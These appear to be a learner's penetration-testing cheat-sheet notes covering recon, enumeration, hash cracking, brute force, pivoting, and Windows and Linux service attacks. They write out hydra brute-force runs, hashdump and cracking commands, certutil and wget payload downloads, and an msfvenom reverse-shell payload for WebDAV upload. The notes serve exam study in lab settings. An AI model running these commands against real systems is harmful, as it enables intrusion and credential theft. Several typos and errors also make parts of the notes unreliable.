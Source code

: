 
Assessment methodologies 
- Locate endpoints on a network 
	- `nmap -sC -sV -oA nmap_results ip `
	- `nmap -sS -Pn -A -p- -oN results_nmap ip` 
- identify vulnerabilities in services
	- `nmap -sS -Pn -p port --script naam_script `
	- `ls -al /usr/share/nmap /script |grep -e "keyword"`
- identify operating system of a target 
- Identify open ports and services on a target 
- Extract company information from public sources
- Gather technical information from public sources
	- sitemap.xml
	- whatWeb 
	- dnsdumpster
	- Robot.txt 
	- Netcraft 
	- `dnsrecon -d domain `
	- `wafw00f domain `
	-  `sudo apt-get install sublist3r  `
		- `sublist3r -e`  
		- `sublist3r -d `
- Gather email addresses from public sources 
- Evaluate information and critically or impact of vulnerabilities 


Host & Network Auditing 
- Transfer files to and from target 
	- `SimpleHTTPServer` = python2
	- ` http.server` = python3
	-  Windows:`certutil -urlcache -f http://adres_webserver
	- Linux: `wget http://adres_webserver/filename.exe `
- Enumerate system information on target 
	- Windows: `getuid` `sysinfo`  
	- Linux: `hostname, /etc/issue, /etc/*release, uname -a, env, free -h, df -h` 
- Gather user account information on target 
	- Windows: `getprivs` `getuid` , shell: `whoami, whoami/priv, net user administator, netuser guest, net localgroup, net localgroup ``administrators` ,  `use post/windows/gather/enum_logged_on_users` 
	  `net user administrator 
           `net user guest `
	   `net localgroup` `
	- Linux: `/etc/passwd, ls -al /home, groups, groups user_name, who lat lastlog`
- Enumerate network information from files on target 
	- Windows: shell: `ipconfig, piconfig /all route print arp-a netstat -ano netsh firewall show state, netsh firewall show state, netsh advfirewall firewall` 
	- Linux: `ifconfig, ip a s, /etc/host, /etc/networks, /etc/resolv.config, arp -a, arp, `
- Compile information from files on target 
	- Cross-Compiling Exploits:
		- compile for 64 bit systems `i686-w64-mingw32-gcc c_file -o portable_executable_file_name`
		- compile for 32 bit system: `i686-w64-mingw32-mingw32-gcc c_file -o portable_executable_file_name -lws2_32 
	- compilation with gcc is only for linux 
- Linux cronjobs: `top, ps, ps aux, ls -al /etc/cron*, /etc/cron*, `
- Gather hash/password information from target 
	- `hashdump` 


Window's enumeration: 

- metasploit module win_privs 
- metasploit module enum_logged_on_users 
- metasploit module checkvm 
- metasploit module enum_applications (
- metasploit module enum_computers  
- metasploit module enum_patches session)
- metasploit module enum_shares 
- JAWS


Linux enumeration: 
- post/linux/gather/enum_configs   
- post/linux/gather/enum_network 
- post/linux/gather/enum_system 
- post/linux/gather/enum_checkvm 
- LinEnum 
 

Host & Networking Pentesting 
- Conduct hash cracking 
		- `hashdump` 
		- Windows
			- ``john --format=NT file --wordlist=/usr/share.wordlist/rockyou.txt
			- ``hashcat -a3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt ``
		- Linux 
			- `` john --format=sha512crypt path_that_contain_hash.txt --wordlist=/usr/share/wordlsits/rockyou.txt ``
			- ``hashcat -a3 -m 1800 path_contains_hashes.txt wordlist_path``
- Identify and modify exploits 
	- `searchsploit` 
- Conduct brute-force password attacks 
	- `hydra` 
	- `nmap ip --script ftp-brute --script-args usersb=/root/users -p 21
	- `nmap ip -p port --script {bruteforce script} --script-args userdb=/root/user``
- Conduct exploitation with metasploit 
- Demonstrate pivoting by adding a route 
	- ``run autoroute -s subnetrange_victim1 
- Demonstrating pivoting by port forwarding 
	- ``portfwd add -l 1234 -p 80 -r victim2_ip
	- Scan victim 2 ``nmap -sV -p 1234 localhost``
	- meterpreter victim 2: ``windows/meterpreter/bind_tcp`` 



Web application Pentesting 
- Conduct webapp reconnaissance
- Conduct brute-force login attack
- locate hidden file and directories 
- Identify vulnerabilities in webapp


---


Linux vulnerabilities: 
- Shellshock - CVE-2014-6271- cgi 
- FTP (21) 
	- Hydra: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetip -t 4 ftp ` 
		- start ftp 
	- ProFTPD (metasploit)
- SSH (22)
	- Hydra: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt targetip -t 4 ssh ` 
- SMB - SAMBA (445)
	- `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetip smb `
	- `smbmap` 
	- `enum4linux -a target `

Windows vulnerabilities 
- WebDAV 
	- `nmap -sV -p 80 --script=http-enum target`
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your own ip) LPORT=port that is open on your system -f asp > meterpreter.asp`
				OF 
	- `use exploit/windows/iis/iis_webdav_upload_asp` 
- SMB met PsExec 
	- `search smb_login ` (metasploit) ![[Pasted image 20230703124308.png]]
	- `psexec.py Adminstrator@targetip command_that_you_want_to_execute `
		- `exploit/windows/smb/psexec`
- EternalBlue 
	- `sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 target`
- RDP (3389) 
	- sudo nmap -p 3389 targetip
	- `search rdp_scanner` (`aux/scanner/rdp/rdp_scanner`)
	- Hydra: 
		- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://targetip  -s rdp'port`
	- `xfreerdp /u:administrator /p:qwertyuiop /v:targetip ` 
	- BlueKeep 
		- metasploit module bluekeep 
- WinRM (5985) (5986)
	- Bruteforce: `crackmapexec winrm  targetip -u adminstrator -p /usr/share/metasploit-framework/data/wordlists/unix_password.txt`
	- shell session: `evil-winrm.rb -u username -p 'password' -i targetip`
	- meterpreter session: `winrm_script_exec `


WIndows Vulnerabilities 
- Bypass UAC 
	- user is part of local administrator group: `net localgroup administrators `
- Access Token Impersonation 
	- windows/meterpreter/reverse_tcp
	- `getprivs` -> SeImpersonatePrivilige needs to be present 
- Alternate Data streams 
	- 